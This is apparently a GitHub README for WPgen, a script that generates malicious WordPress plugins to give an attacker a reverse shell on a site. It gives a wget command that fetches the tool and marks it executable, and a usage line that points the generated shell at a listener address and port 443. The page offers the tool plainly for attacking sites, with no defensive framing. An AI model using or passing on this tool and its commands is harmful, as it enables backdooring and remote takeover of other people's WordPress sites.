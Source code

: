 # **WPgen**

#### **WPgen** is an automatic malicious plugin generator for **WordPress**, get a reverse shell in a simple and fast way.

![](screenshot.png)

---

## Download

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/VulNyx/Arsenal/refs/heads/main/WPgen/WPgen" && chmod +x WPgen
```

## Usage

```sh
WPgen -l 192.168.1.X -p 443
```

![](1.png)

![](2.png)

![](3.png)

---
